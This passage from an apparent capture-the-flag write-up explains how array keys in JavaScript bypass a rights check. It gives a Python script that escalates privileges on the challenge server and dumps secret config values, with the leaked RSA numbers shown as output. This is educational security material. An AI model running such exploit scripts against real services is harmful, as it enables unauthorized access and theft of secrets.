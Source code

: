 Quick example, where we try to access an object with an array as key:

```javascript
foo = {"foo": "bar"}
foo[["foo"]]  // bar
```

Don't you love Javascript? `¯\_(ツ)_/¯`. So if we add `['n']` and `['p']` we will defeat the `checkRights()` function.

We can then call `/serverInfo` to read arbitrary values out of the `config` object.

#### Dumped secrets

Using this we can dump the `config` secrets:

```python3
import requests

url = "http://167.172.165.153:60001"

# create user with the admin username
resp = requests.post(url + "/login",
                     json={"username": "hacKtm"})
resp.raise_for_status()
token = resp.json()['data']['token']
print("[*] Created user with admin username")

# add illegal rights
resp = requests.post(url + "/updateUser",
                     json={"rights": [["n"], ["p"]]},
                     headers={"Authorization": "Bearer %s" % token})
resp.raise_for_status()
print("[*] updated rights")

# fetch secret config values
resp = requests.get(url + "/serverInfo",
                    headers={"Authorization": "Bearer %s" % token})
resp.raise_for_status()
print("[*] fetched secret config values")

server_info = resp.json()
for key in server_info["data"]["info"]:
    if isinstance(key["name"], list):
        print("[*] %s = %s" % (key["name"][0], key["value"]))
```

```text
[*] n = 54522055008424167489770171911371662849682639259766156337663049265694900400480408321973025639953930098928289957927653145186005490909474465708278368644555755759954980218598855330685396871675591372993059160202535839483866574203166175550802240701281743391938776325400114851893042788271007233783815911979
[*] p = 192342359675101460380863753759239746546129652637682939698853222883672421041617811211231308956107636139250667823711822950770991958880961536380231512617
```
